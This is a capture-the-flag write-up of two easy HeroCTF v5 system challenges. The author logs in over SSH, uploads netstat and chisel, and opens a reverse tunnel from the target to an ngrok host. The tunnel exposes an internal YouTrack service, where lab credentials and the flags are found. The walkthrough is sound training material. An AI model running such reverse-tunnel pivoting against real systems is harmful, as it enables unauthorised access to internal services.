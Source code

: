 # IMF#0 - 1

## Table of Contents

1. [IMF#0: Your mission, should you choose to accept it](#imf0-your-mission-should-you-choose-to-accept-it)
	- [Overview](#overview)
	- [Background](#background)
2. [IMF#1: Bug Hunting](#imf1-bug-hunting)
	- [Overview](#overview-1)
	- [Background](#background-1)
	- [Enumeration](#enumeration)
3. [Conclusion](#conclusion)

## IMF#0: Your mission, should you choose to accept it

### Overview

- 368 solves / 50 points
- Difficulty: Easy
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

### Background

The Infamous Mother Fluckers have been hired to take down a guy named Dave. I think his sister's husband's cousin's wife's brother's son had an affaire with our client's wife, and for some reason he want's to take it out on him. But who are we to judge right ? We're getting paid, that's enough for me.  
  
I got you a job in the same development start-up as Dave. In fact, you are his team mate. I asked around in some underground circles, and word is on the streets that our guy is selling customer information. If you can get proof of that and send it to his boss, he'll get fired and we'll get paid. I'm counting on you.  
  
And keep you eyes opened, you might find some other interseting stuff on the company's network.  
  
For this mission, you are bob. Your ssh credentials are `bob:password`.  
  
Enter this flag to accept the mission : `Hero{I_4cc3pt_th3_m1ss10n}`  
  
_This message will self-destruct in 5 seconds._  
  
> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)  
  
Format : **Hero{flag}**  
Author : **Log_s**

- **Flag: `Hero{I_4cc3pt_th3_m1ss10n}`**

## IMF#1: Bug Hunting

### Overview

- 99 solves / 68 points
- Difficulty: Easy
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

### Background

Tracking bugs can be tidious, if you're not equiped with the right tools of course...  
  
> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)  
  
Format : **Hero{flag}**  
Author : **Log_s**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514191443.png)

### Enumeration

**In this challenge, we can SSH into user `bob` with password `password`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/IMF#0-#4)-[2023.05.14|18:56:37(HKT)]
└> ssh bob@dyn-01.heroctf.fr -p 11386
[...]
bob@dyn-01.heroctf.fr's password: 
[...]
bob@dev:~$ 
```

```
bob@dev:~$ cat welcome.txt 
Hi Bob!

Welcome to our firm. I'm Dave, the tech lead here. We are going to be working together on our app.

Unfortunately, I will be on leave when you arrive. So take the first few days to get familiar with our infrastructure, and tools.

We are using YouTrack as our main issue tracker. The app runs on this machine (port 8080). We are both going to use the "dev" account at first, but I will create a separate account for you later. There is also an admin account, but that's for our boss. The credentials are: "dev:aff6d5527753386eaf09".

The development server with the codebase is offline for a few days due to a hardware failure on our hosting provider's side, but don't worry about that for now.

We also have a backup server, that is supposed to backup the main app's code (but it doesn't at the time) and also the YouTrack configuration and data.

Only I have an account to access it, but you won't need it. If you really have to see if everything is running fine, I made a little utility that run's on a web server.

The command to check the logs is:
curl backup

The first backups might be messed up a bit, a lot bigger than the rest, they occured while I was setting up YouTrack with it's administration account.

Hope you find everything to you liking, and welcome again!

Dave
```

**So, there's a "YouTrack" Project Management Tool, and we can login with credentials: `dev:aff6d5527753386eaf09`.**

**Since the instance machine doesn't have `netstat`, I'll upload it via `scp`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/IMF#0-#4)-[2023.05.14|19:01:54(HKT)]
└> scp -P 11386 -r /usr/bin/netstat bob@dyn-01.heroctf.fr:/tmp/netstat
bob@dyn-01.heroctf.fr's password: 
netstat                                                              100%  152KB 192.1KB/s   00:00    
```

```shell
bob@dev:~$ /tmp/netstat -tunlp
(No info could be read for "-p": geteuid()=1001 but you should be root.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:35533         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.11:45091        0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.11:58050        0.0.0.0:*                           -                   
```

Can confirm port 8080 is listening on all interface. Also, there's a weird 35533 port open?

Anyway, to access the YouTrack application, we can use a port forwarding tool.

**To do so, I'll use `chisel`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/IMF#0-#4)-[2023.05.14|19:03:20(HKT)]
└> scp -P 11386 -r /opt/chisel/chiselx64 bob@dyn-01.heroctf.fr:/tmp/chisel  
bob@dyn-01.heroctf.fr's password: 
chiselx64                                                            100% 7888KB 317.8KB/s   00:24    
```

**Setup a port forwarding service, like Ngrok:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/IMF#0-#4)-[2023.05.14|19:12:03(HKT)]
└> ngrok tcp 4444 
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:16442 -> localhost:4444                              
[...]
```

**Setup a reverse port forwarding server:**
```shell
┌[siunam♥earth]-(/opt/chisel)-[2023.05.14|19:04:57(HKT)]
└> ./chiselx64 server -p 4444 --reverse
2023/05/14 19:05:42 server: Reverse tunnelling enabled
2023/05/14 19:05:42 server: Fingerprint MNPD78StKIbLJT5I39BqUCw190PpkWyXRkPyhKPnxMM=
2023/05/14 19:05:42 server: Listening on http://0.0.0.0:4444
```

**Connect to server from the client:**
```shell
bob@dev:~$ /tmp/chisel client 0.tcp.ap.ngrok.io:16442 R:5001:0.0.0.0:8080&
[2] 1197
11:19:01 client: Connecting to ws://0.tcp.ap.ngrok.io:16442
11:19:03 client: Connected (Latency 270.048918ms)
```

**That way, we can access it from `localhost:5001`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514192058.png)

**As we have a credential, let's login!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514192129.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514192145.png)

**In here, we can view "Issues":**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514192329.png)

**In "ST-5 Is that..." issue, we can find the flag!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514192432.png)

- **Flag: `Hero{1_tr4ck_y0u_tr4ck_h3_tr4ck5}`**

## Conclusion

What we've learned:

1. Port Forwarding With `chisel` & Enumerating YouTrack